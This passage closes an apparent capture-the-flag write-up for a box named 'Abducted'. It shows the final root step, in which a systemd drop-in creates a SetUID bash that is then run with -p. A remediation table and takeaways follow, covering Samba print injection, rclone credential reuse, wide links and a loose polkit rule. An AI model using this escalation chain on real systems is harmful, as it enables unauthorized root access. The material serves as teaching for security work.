separate from the reload - so watch this one too. No prompt means it's also granted, and smbd
restarting fires our ExecStartPre as root, creating the SetUID bash.
Collect root
$ /tmp/rootbash -p
$ id-p keeps the SetUID euid instead of dropping it. Your real uid still shows marcus -
that's normal for a SetUID shell; euid=0(root) is what matters.

/tmp/rootbash -p → euid=0(root). Full chain from nobody to root.And the root flag:
rootbash-5.2# cat /root/root.txt
/root/root.txt [redacted]One last thing, now that we're root - we can finally read the polkit rule that was locked away in
the root-only /etc/polkit-1/rules.d/, and confirm the answer we inferred earlier instead
of just trusting it:
# cat /etc/polkit-1/rules.d/*.rules
reload-daemon answer. There are multiple ways to reach the same conclusion; this is just the most direct proof.pwn.conf and /tmp/rootbash are artifacts we dropped. In a real engagement
you'd log them in the report and clean them up afterward - a group-writable unit drop-in and a
world-executable SetUID bash are exactly the kind of thing you don't want to leave behind.
06Root cause & remediation
| Samba print injection CVE-2026-4480 · CWE-78 |
Patch Samba. Never pass the %J job name to a shell command unescaped; disable unused printer shares and lock down anonymous access to the spooler. |
| Reused / recoverable creds rclone-obscured password reused for scott |
rclone obfuscation is not encryption - treat any obscured secret as plaintext. Use unique per-account credentials, keep config files owner-only (0600), and move secrets into a real secrets manager. |
| Samba wide links force user across a trust boundary |
Disable wide links / allow insecure wide links. Don't combine force user with a writable share that another user controls on disk - it lets one account act as another. |
| Writable systemd drop-in + loose polkit rule operators group + no-auth reload/restart |
Keep unit and drop-in directories root-owned and not group-writable. Scope polkit rules tightly (specific action, specific admin subject, require auth), and don't let a service restart become a root-code-execution primitive. |
07Summary & takeaways
Abducted is a five-step chain and every link is one small misconfiguration handing off to the next:
an anonymous print share → command injection (CVE-2026-4480) for a shell as nobody
→ a world-readable rclone config whose "obscured" password decodes and is reused for
scott → a force user + wide links Samba share abused to
plant an SSH key and become marcus → a group-writable systemd drop-in plus a loose
polkit rule to run code as root. No brute-force anywhere.
Read the box name and the recon signals as hints. "Abducted" was a nudge, and an anonymously-mappable printer share on a Samba box is unusual enough to point straight at a print-spooler CVE rather than a password attack.
Obfuscation is not encryption. rclone's obscure is reversible with a
public algorithm - if a low-priv user can read the config, the secret is already gone. And any
credential you find is a candidate for reuse everywhere else; the service password just happened to be
scott's too.
Small config choices compound. wide links alone is a read/write
primitive; force user alone is an identity swap; together they're lateral movement. A
group-writable unit dir alone is harmless; a polkit rule ungating daemon-reload alone is
harmless; together they're root. Chaining is where the real severity lives.
Verify, don't assume. We checked the drop-in directory's actual permission bits
before relying on them, and we proved the polkit rule by watching daemon-reload run without
a prompt rather than taking it on faith - then confirmed the rule text itself once we were root. That's
the discipline that keeps a finding defensible when a client pushes back.